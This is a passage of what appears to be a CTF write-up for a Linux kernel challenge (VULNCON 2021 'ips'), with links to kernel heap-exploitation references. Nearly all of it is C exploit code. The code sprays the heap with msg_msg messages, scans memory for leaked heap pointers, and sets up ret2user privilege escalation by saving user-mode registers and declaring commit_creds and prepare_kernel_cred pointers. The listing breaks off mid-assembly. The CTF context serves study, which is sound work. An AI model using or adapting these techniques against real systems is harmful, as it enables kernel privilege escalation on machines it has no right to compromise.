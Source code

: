 ```c
    dt.idx = idx;
    return syscall(ISP,4,&dt);
}
void stop(){
    puts("Pause");
    char buf[0x10];
    read(0,buf,0xf);
}
#define MSG 	0x2e
char *p64(size_t val){
    char *res  = malloc(0x18);
    memset(res,0,0x18);
    size_t * p = res;
    * p = val;
    return res;
}
void spray(int id){
    char *x = malloc(0x50);
    memset(x,0x69,0x50);
    msgQueueSend(id,x,0x50,1);
}
void* findLeakedP(size_t *p){
    void *leaked_heap;
    for(int i =0 ; i<(int)(0xfc0/0x8);i++){
        // info(p[i]);
        if(p[i]==0x6969696969696969 && i>4 && p[i-3]==0x50)
        {
            // info(p[i-5]);
            leaked_heap = p[i-5]>>12<<12;
            if(leaked_heap==0)
                continue;
            break;
        }
    }
    return leaked_heap;
}
void LeakHeapBase(){

}
char * prepareTrashData(){
    char *MEM = calloc(1,0x50);
    memset(MEM,0x69,0x50-1);
    return MEM;
}
/// @brief  ret2user
size_t commit_creds = NULL, prepare_kernel_cred = NULL;

size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}
void back2user(){

      __asm__("mov rax, user_ss;"
            "push rax;"
```

[1]: https://elixir.bootlin.com/linux/latest/source/fs/seq_file.c
[2]: https://elixir.bootlin.com/linux/latest/source/ipc/msg.c
[3]: https://duasynt.com/blog/linux-kernel-heap-feng-shui-2022
[4]: https://arttnba3.cn/2021/11/29/PWN-0X02-LINUX-KERNEL-PWN-PART-II/
[5]: https://github.com/sajjadium/ctf-archives/tree/0328b950496e5d12b775e8bd67d1569977ec10c0/ctfs/VULNCON/2021/pwn/ips